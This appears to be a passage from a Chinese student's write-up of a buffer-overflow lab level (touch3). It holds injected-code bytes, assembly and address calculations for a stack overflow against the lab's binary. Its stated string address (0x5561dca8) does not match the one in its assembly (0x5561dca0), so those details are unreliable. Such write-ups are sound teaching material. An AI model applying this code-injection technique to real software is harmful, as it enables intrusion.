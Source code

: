 ```cpp
bf fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
### Part I level 3

这一次，我们要调用的函数是touch3。

```cpp
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    /* Make position of check string unpredictable */ 
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
乍一看，hexmatch里面有一个random函数，不知道怎么办，但仔细看下来，发现这个根本就不影响结果。可能是出于什么其他的原因吧。所以，这个函数和上一个比起来，好像有点复杂，但其实都是一样的。唯一不一样的地方可能是需要自己构造一个字符串，但是还是比较简单。因为函数返回地址后面还可以溢出，这样，我们就可以把我们构造的字符串放在这里。注意，这里需要查ASCII表。

所以，这里我们需要做的事情有，得到touch3的函数地址，构造cookie字符串，然后编写汇编代码，汇编代码需要执行的操作是，把我们构造的字符串地址作为第一个参数，调用touch3函数。前面我们已经得到了getbuf函数中buf的首地址为0x5561dc78 ，所以我们构造的字符串的首地址为0x5561dc78 + 0x28 + 0x8 = 0x5561dca8。通过和上面类似的方法，得到touch3函数的地址为0x4018fa。所以我们的汇编代码c3.s为。

```cpp
mov $0x5561dca0, %edi
pushq $0x4018fa
ret
```

使用gcc得到对应的二进制代码。
```cpp
0:   bf a0 dc 61 55          mov    $0x5561dca0,%edi
5:   68 fa 18 40 00          pushq  $0x4018fa
a:   c3                      retq   
```
我们这里的cookie为0x59b997fa，对应的字符的16进制形式为。
